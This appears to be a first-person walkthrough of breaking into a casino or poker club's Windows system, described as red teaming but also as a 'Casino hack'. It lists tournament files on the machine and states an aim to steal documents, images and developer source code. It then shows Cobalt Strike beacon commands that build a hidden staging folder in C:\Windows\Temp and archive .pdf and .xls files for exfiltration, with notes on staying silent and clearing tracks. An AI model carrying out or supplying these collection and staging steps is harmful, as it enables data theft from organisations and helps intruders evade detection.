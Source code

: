 ```

Пт 17.12.21  09:38    <DIR>          .
Пт 17.12.21  09:38    <DIR>          ..
Вт 14.12.21  04:43           110 763 Freerol Sat to Grand Day 1A (6 по 15) NEW.tdt
Пт 03.12.21  07:34           104 999 Freerol Sat to Grand Day 1A (8 по 15) NEW.tdt
Сб 11.12.21  08:18           113 854 Freeroll sat to MAIN Day A ( 6 по 15) red.tdt
Ср 15.12.21  08:22           111 703 GRAND Day A-B (10 по 25).tdt
Пт 17.12.21  09:38           115 011 MAIN Day A(10 по 20)- 2.tdt.txt
Чт 02.12.21  04:11           115 011 MAIN Day A(10 по 20).tdt
Ср 15.12.21  07:50           114 660 MAIN Day B(10 по 25).tdt
Ср 15.12.21  07:48           114 015 MAIN FINAL (10 по 30).tdt
Ср 15.12.21  08:07           115 614 MINI Event (12 по 30) blue.tdt
Пт 03.12.21  08:04           104 480 Satellie to Grand Day 1B (6 по 15) NEW.tdt
Вт 14.12.21  07:30           106 064 Satellie to Grand FINAL (6 по 15) red.tdt
Вт 14.12.21  07:38           106 703 Satellie to Grand FINAL (8 по 15) red 2000.tdt
Вт 14.12.21  08:13           105 057 Satellite to MAIN Day B ( 8 по 15) red.tdt
Вт 14.12.21  08:11           105 180 Satellite to MAIN Day B ( 8 по 15) СВЕТЛАЯ.tdt
Пт 03.12.21  07:56           104 457 Satellite to MINI Event ( 6 по 15) red.tdt
              15 файлов      1 647 571 байт
```

There are some file extensions like `.tdt` that we didn't recognize it but it does have something to do with the casino. However, when I do quick search it's nothing more but a thumbnail but I could wrong about that since there could something else we could done. Let us know if you can give us tips for the next Casino hack users! Any feedback will be much appreciated :)

Of course we can't just download everything we have to take what's important to us! We only take documents and images since it's a casino unless we've discovered a custom software that was made for it and steal the source code from the developer ;)

Good thing I don't have to do any calculations to determine the size of how much data we want to extract. I just started archiving to each file extensions that is separated and it wasn't really much. Like each of them are a total of between **200MB** - **700MB** of compressed size. Of course you would tell me to install 7zip program on the target's computer but it's no big deal and it's a doable for us. The point is in red teaming is to be slient and minimize the trace to make it easier to clear your tracks.

First we create a new folder through the temp directory `C:\Windows\Temp\` and run this powershell one-liner that will pipe it to `Compress-Archive` to each file extensions we want to archive. These are the following file extensions based on our enumeration phase: `.doc`, `.docx`, `.docm`, `.xls`, `.xlsx`, `.xlsm`, `.csv`, `.pdf`, and `.tdt`

Good thing about the `Get-ChildItem` (alias `gci`) that the `-Filter` flag matches the strings that starts with the beginning of the characters `-Filter *.doc` so I don't have to repeat it again due to the context the filters the specific strings so I can move changing `*.doc` to `*.xls`. Talk about basic regular expression 101.

```
beacon> mkdir C:\Windows\Temp\junk
[*] Tasked beacon to make directory C:\Windows\Temp\junk
[+] host called home, sent: 38 bytes

beacon> powershell gci -recurse -path C:\PokerClub -filter *.pdf | compress-archive -destinationpath C:\Windows\Temp\junk\junk-adobe.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path C:\PokerClub -filter *.pdf | compress-archive -destinationpath C:\Windows\Temp\junk\junk-adobe.zip -compressionlevel optimal -force
[+]host called home, sent: 463 bytes
[+] received output:
..[snip]..

beacon> powershell gci -recurse -path C:\PokerClub -filter *.xls | compress-archive -destinationpath C:\Windows\Temp\junk\junk-spreadsheets.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path C:\PokerClub -filter *.xls | compress-archive -destinationpath C:\Windows\Temp\junk\junk-spreadsheets.zip -compressionlevel optimal -force
[+] host called home, sent: 483 bytes
[+] received output:
```